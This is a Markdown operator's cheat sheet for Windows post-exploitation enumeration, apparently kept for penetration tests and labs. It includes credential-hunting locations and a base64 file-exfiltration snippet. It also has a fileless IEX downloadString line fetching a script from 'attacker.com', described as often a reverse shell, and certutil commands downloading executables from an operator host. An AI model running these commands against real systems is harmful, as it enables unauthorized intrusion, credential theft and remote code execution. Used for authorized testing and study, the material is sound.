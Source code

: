 # win_enumeration

This page serves as a reference to be used during operations. Included items are:

- checklists/skeletons of common enumerations loops
- prepared statements, ready for copy paste
- legacy reference notes, useful for writing and for when other methods have been exhausted

## default enumeration activity 

> Noisy,  lab use only. Campaigns should be planned, only necessary commands should touch the target

### checklist

1. `systeminfo`
	1. we care about the most recent patch and build numbers
	2. in particular note the KB hotfix number
3. `powershell -c 'dir env:'`
	1. userinfo 
	2. env vars
4. Execute the following in order, parse the ouput carefully.
	1. `PowerUp.ps1`
	2. `SharpUp.exe`
	3. `WinPeasANY.exe`
5. manual enumeration
	1. focus on human activity
	2. scripts, notes, custom applications
	3. passwords written where they should not be
	4. review the ouput of enumeration scripts, they commonly miss the following
		1. `cmdkey /list`
		2. scheduled tasks
		3. startup apps
		4. access control permissions on registry services
		5. Saved credentials in tools such as `PuTTY`
		6. credentials saved in registry keys


### prepared statements

```cmd
systeminfo
```

The following should be executed in a powershell context

```powershell
Get-Content $env:windir\System32\Drivers\etc\hosts
```

```powershell
Get-Content $env:appdata\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt
```



## powershell

> initial enumerations
```powershell
get-localuser		# lists users
get-localgroup		# lists groups
get-childitem -recurse -Depth 1		# nice way to get "tree" output
get-acl FILENAME    # shows owner+other stuff on directory/object pointed at
Get-Service | Where-Object -Property Status -eq Running # running services	 
```

> serving files
```
all cmd commands should work
also `wget` is a common alias which creates the `Invoke-WebRequest` powershell equivalent
```

> find command
```powershell
get-childitem -force -recurse -path C:\ -errorACtion SilentlyContinue -include *SEARCH_TERM*
# https://devblogs.microsoft.com/scripting/use-windows-powershell-to-search-for-files/ 
```

> grep equivalent; this will search entire filesystem; albeit with a lot of terminal noise
```powershell
Get-ChildItem C:\* -recurse | Select-String -pattern SEARCH_TERM
```

## exfiltration through the screen

Provided file size is small enough, set a variable `$path = "C:\Path\To\file"` then put the following prepared statement into the shell

```powershell
$b64 = (Get-Content -Path $path -Encoding byte); [convert]::ToBase64String($b64)
```

Note that the resulting b64 is in `utf-16le` and should be converted with the `iconv` utility before further usage. 


## using common scripts

### execution without touching disk

1. host the `script.ps1` 
2. edit the `script.ps1` file to call w.e. function you want by placing the function call, including arguments, at the end of this file. This is often the reverse shell.
3. use `IEX(new-object net.webClient).downloadString('http://attacker.com/script.ps1')` 


### execution with touching disk 

> `PowerUp.ps1` is used as an example

```powershell
-ep bypass
import-module powerup.ps1 # or w.e u named it
invoke-allchecks          # this is a method defined in powerup.ps1
```


## legacy reference  - first attempts at learning enumeration

Flailing about. This section holds notes created when first studying Windows Enumeration. It is disorganized and ineffective for operations. Leaving it here to demonstrate growth and as reference for writing. Not likely to be referenced during campaigns. 

bullet points

- `C:/windows/tasks`     -   is a common (ALL) READ/WRITE directory
- winPEAS exists
- seatbelt exists
- `find` command exists, does it ? YES
- `cacls FILENAME`  access control lists; deprecated but sometimes has info



### notable files

> etc hosts
```
c:\Windows\System32\Drivers\etc\hosts
```

> powershell history
```
C:\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
```


### the classics
```cmd.exe
systeminfo

wmic qfe get Caption, Description
; installed updates, hotfixes etc

net start
; started and installed services

wmic product get name,version,vendor
; installed apps

whoami /all  # (includes, /privs and /groups)
net user, net user /domain
net localgroup, net localgroup  GROUPNAME

net account, net accounts /domain  
; Get password policy info, among other stuff

```
> note that most of these are alarmed by the SIEM, especially those which enumerate the domain. powershell equivalents might be the way to go?


### network
> ports in use; all, binary(name of exe), no-resolve numbers, PID
```
netstat /?
netstat -abno
# -b is the valuable flag here, resolves binary name
```

> network interfaces, is this multi-homed?
```
ipconfig
```

> discover peers via pingsweep
```
PINGSWEEP SCRIPT, or manually
ping -a the results
```

> discovery peers, alternative to pingsweep, MAY BE ALARMED
```
arp -a
```

> host file, may reveal information
```
c:\Windows\System32\Drivers\etc\hosts
```


### cmd

> when enumerating through RCE; particularly useful for pulling/serving with certutil
```
cmd.exe /C 																			; executes a command in cmd.exe, similar to powershell -c
cmd.exe /C certutil -urlcache -split -f http://<MY_IP>/NAME_FILE.exe OUTFILE.exe 	; example of serving
```


> basic enumerations; drop these commands when you initially land
```sh
powershell> dir env: 								; list env vars for current user; excellent info here
whoami /all  (or /priv)
systeminfo
type C:\Users\USER_NAME\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

> serving files 
```sh
certutil -urlcache -split -f http://<MY_IP>/NAME_FILE.exe OUTFILE.exe 				; may not needs -split
```




